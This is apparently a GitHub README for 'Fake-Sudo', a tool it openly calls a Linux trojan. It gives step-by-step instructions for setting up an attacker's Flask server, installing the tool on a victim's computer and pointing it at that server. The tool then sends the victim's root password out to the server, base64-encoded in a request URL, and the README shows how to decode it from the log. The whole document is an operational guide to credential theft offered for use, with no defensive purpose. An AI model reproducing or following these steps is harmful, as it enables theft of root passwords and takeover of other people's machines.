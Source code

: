 # Fake-Sudo
A linux trojan
## How to use
<b>WARNING: this only works for linux users.</b><br><br><br>
The following commands shall be executed in the terminal.
1. Clone the repo<br>`git clone https://github.com/NarmakTwo/Fake-Sudo.git`<br>`cd Fake-Sudo`
2. Install pip if you haven't already<br>`sudo apt instal pip -y`
3. Make a server<br>`pip install flask`<br>`python3 flask.py` (you might have to make a venv, `pip install virtualenv && python3 -m virtualenv venv1 && source ./venv1/bin/activate`)
4. Go to the computer you want to steal the root password from
5. Clone the repo<br>`git clone https://github.com/NarmakTwo/Fake-Sudo.git`<br>`cd Fake-Sudo`
6. Setup the program<br>`chmod a+x setup.sh`<br>`source setup.sh`
7. Clear the screen<br>`clear`
8. Enter the public URL for the server you made (NOT 127.0.0.1)<br>`Site (include https:// or http://) <<< [your url]`
9. Once the server log says something, copy the end of the url (e.x. `0.0.0.0 - - [January/1/2021 10:23:04] "GET /`**`qfgghheyfhrf;e/vfrtgisfkdgiyes`**` HTTP/1.1" 404 -`)and decode it<br>`echo [end of url] | base64 -d`, That's the root password!
10. That's it!
